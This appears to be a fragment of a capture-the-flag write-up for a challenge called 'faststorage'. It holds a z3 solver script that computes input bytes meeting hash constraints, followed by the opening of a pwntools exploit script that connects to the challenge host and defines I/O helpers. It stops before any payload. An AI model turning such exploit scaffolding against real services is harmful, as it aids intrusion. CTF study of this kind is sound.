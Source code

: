 ```python
h = BitVec("h", 32)

i = BitVec("i", 32)

i=(((((0x1337*a+1)*b+1)*c+1)*d+1)*g+1)*h+1
s.add(a<256,b<256,c<256,d<256,g<256,h<256,i<=0x7eFFFFFF)
s.add(a>0,b>0,c>0,d>0,g>0,h>0,i>0)

tmp=int(sys.argv[1])
if(tmp>=32):
    s.add(i%62==61)
    tmp-=32
else:
    s.add((i+2)%62==0)

e=((b<<8)+a)^((d<<8)+c)^((h<<8)+g)
s.add((((e >> 10) ^((e ^ (e >> 5))&0xFF))&0x1f)==tmp)
f=0
for w in range(8):
    f=f+((a>>w)&0x1)
    f=f+((b>>w)&0x1)
    f=f+((c>>w)&0x1)
    f=f+((d>>w)&0x1)
    f=f+((g>>w)&0x1)
    f=f+((h>>w)&0x1)

s.add((f&0x1f)==tmp)

if(s.check()):
    m=s.model()
    print(m[a]+m[b]+m[c]+m[d]+m[g]+m[h])
```

Exp:

```python
from pwn import *
import os
local=0
pc='./faststorage'
pc='/tmp/pwn/faststorage_debug'
remote_addr=['faststorage.hackable.software',1337]
aslr=False
#context.log_level=True
libc=ELF('./libc.so.6')

if local==1:
    p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    #p = process(pc,aslr=aslr)
    gdb.attach(p,'c')
else:
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x) 
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

```